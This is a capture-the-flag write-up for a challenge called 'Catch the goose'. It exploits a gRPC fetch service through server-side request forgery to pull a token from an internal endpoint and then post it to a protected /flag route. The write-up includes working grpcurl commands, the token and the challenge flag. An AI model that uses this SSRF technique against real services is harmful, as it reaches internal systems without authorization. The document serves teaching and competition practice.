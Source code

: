# Catch the goose 

We are given several public files:

* `Happy_Log.pcapng` (packet capture)
* `fetch.proto` (gRPC protocol definition)
* `flag_server.py` (Python source of the internal flag server)

The goal is to exploit a **gRPC-based SSRF** (Server-Side Request Forgery) and retrieve the flag from a protected internal server.

## **Challenge Analysis**

Quick recall: if you already solved the challenge named “Catch the goose”, you will notice that there is something with grpc here.

/token → /flag

### **1. Understanding the Internal Flag Server (`flag_server.py`)**

The Python file defines a web server with three main endpoints:

* `/token` (`GET`): Generates and returns a **short-lived token**
* `/flag` (`POST`): If sent a valid token, returns the **flag**
* `/` (`GET`): Returns “Meow” (irrelevant)
* All other URLs: Return 404

### **How Tokens Work**

* When `/token` is accessed via GET, it generates a SHA256 hash using the current Unix timestamp and a secret key. This token is only valid for **5 seconds** (`TOKEN_VALIDITY = 5`).
* When `/flag` is accessed via POST, it expects a form field called `token` containing a valid token. If the token is expired or incorrect, it responds with 401 Unauthorized.

### **Key Code Sections**

```python

@app.route("/token", methods=["GET"])
def get_token():
    token, timestamp = generate_token()
    return token

@app.route("/flag", methods=["POST"])
def get_flag():
    token = request.form.get('token')
    if not token:
        return "Token required", 401
    if not verify_token(token):
        return "Invalid token", 401
    return FLAG

```

---

### **2. The SSRF Vector: gRPC Fetch Service**

We do **not** have direct access to the Flask server. Instead, we have a gRPC-based "fetch" service described by `fetch.proto`, running at

`chal.78727867.xyz:6666`.

### **The Proto File Lets Us:**

* Specify a **URL**, **HTTP method** (GET, POST, etc.), **headers**, and **body** for an HTTP request
* The server will perform this request **from its own perspective** (internal SSRF!), and return the result.

### **Relevant Proto Message**

```

message FetchRequest {
  string url = 1;
  string method = 2;
  map<string, string> headers = 3;
  string body = 4;
}

```

This means we can **fully control** the HTTP request made by the server, including method, headers, and body.

---

### **3. Network Analysis: Wireshark**

The provided `Happy_Log.pcapng` file contains network traffic.

* Using Wireshark, we filter for `grpc` traffic and see HTTP2/gRPC requests to `/fetch.FetchService/FetchURL`.
* One of the packets contains a POST request with a body including a SHA256 hash, likely the token.

**Key finding:**

We see gRPC requests from the user to `chal.78727867.xyz:6666`, and the gRPC server forwarding SSRF HTTP requests internally (like `GET /token` and `POST /flag`).

---

## **Exploitation Steps**

### **Step 1: Get a Valid Token via SSRF**

We use `grpcurl` to tell the fetch service to **GET `/token`** from its own `localhost:80`:

```bash

grpcurl -plaintext -proto fetch.proto \
  -d '{"url":"http://localhost:80/token","method":"GET","headers":{}}' \
  chal.78727867.xyz:6666 fetch.FetchService/FetchURL

```

* This returns a JSON object with a `"content"` field containing a token:

  ```

  {
    "content": "2b5cd0b3684c7d0c585aafe0fe8c29431233dc655fb5728f932ec771e25f65f7"
  }

  ```

### **Step 2: Submit the Token via SSRF POST**

Within **5 seconds**, we POST this token to `/flag` via the same SSRF vector:

```bash

grpcurl -plaintext -proto fetch.proto \
  -d '{"url":"http://localhost:80/flag","method":"POST","headers":{"Content-Type":"application/x-www-form-urlencoded"},"body":"token=2b5cd0b3684c7d0c585aafe0fe8c29431233dc655fb5728f932ec771e25f65f7"}' \
  chal.78727867.xyz:6666 fetch.FetchService/FetchURL

```

* If successful, the server replies with:

  ```

  {
    "content": "NHNC{YuMMyeeeE_GOOOd_ChAL_rIGHT}"
  }

  ```

## Thats the flag
